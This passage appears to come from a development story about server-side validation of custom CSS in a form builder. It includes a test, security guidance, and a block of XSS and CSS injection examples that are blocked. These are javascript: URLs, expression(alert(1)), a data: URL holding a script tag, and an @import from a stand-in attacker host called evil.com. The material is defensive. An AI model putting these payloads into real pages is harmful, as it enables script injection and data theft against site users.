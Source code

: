 ```typescript
              id: 'field1',
              type: 'text',
              metadata: { customStyle: 'background: url(javascript:alert(1));' },
            },
          ],
        },
      });
    expect(response.status).toBe(400);
    expect(response.body.error).toBe('Invalid custom CSS');
  });
});
```

---

### Security Considerations

**XSS Prevention:** [Source: docs/prd/epic-16-field-properties-system.md#NFR2: Security]

1. **Server-side validation is MANDATORY** - client-side warnings are UX only
2. **Whitelist approach** - only allow safe CSS properties (never blacklist-only)
3. **Pattern blacklist** - reject dangerous patterns (javascript:, @import, expression())
4. **URL validation** - only allow HTTPS URLs in url() (no http://, data:, or javascript:)
5. **CSP headers** - Content Security Policy prevents inline script execution
6. **Regular audits** - Review whitelist/blacklist quarterly for new attack vectors

**CSS Injection Attack Examples:**

```css
/* BLOCKED: JavaScript execution */
background: url(javascript:alert(1));

/* BLOCKED: Import external stylesheet */
@import url('https://evil.com/steal-data.css');

/* BLOCKED: IE expression() XSS */
width: expression(alert(1));

/* BLOCKED: Data URL XSS */
background: url(data:text/html, <script>alert(1)</script>);

/* ALLOWED: Safe styling */
color: blue;
padding: 10px;
border: 1px solid #ccc;
```

---

### Previous Story Insights

**Story 16.1 (Accordion Layout):**

- Field Properties Modal now organized into accordion panels
- Styling section created (currently empty placeholder)
- This story populates the Styling section with Custom CSS textarea
